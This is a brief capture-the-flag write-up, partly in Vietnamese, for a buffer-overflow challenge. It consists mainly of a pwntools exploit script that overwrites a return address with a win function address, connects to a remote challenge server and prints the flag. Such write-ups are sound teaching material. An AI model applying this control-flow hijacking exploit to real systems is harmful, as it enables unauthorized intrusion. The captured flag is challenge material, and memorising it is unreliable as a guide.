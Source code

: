 đơn giản là BOF thôi hehe

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall")
context.binary = exe

p = process([exe.path])
# gdb.attach(p, gdbscript = '''
# b*0x4013c1
# c
# ''')

# input()

p = remote("103.162.14.116", 12005)

payload = b'a'*0x38 + p64(exe.sym.win + 5) 
p.send(payload)



p.interactive()

# KCSC{bypass_strstr_by_null_byte}

```
# Flag 
KCSC{bypass_strstr_by_null_byte}
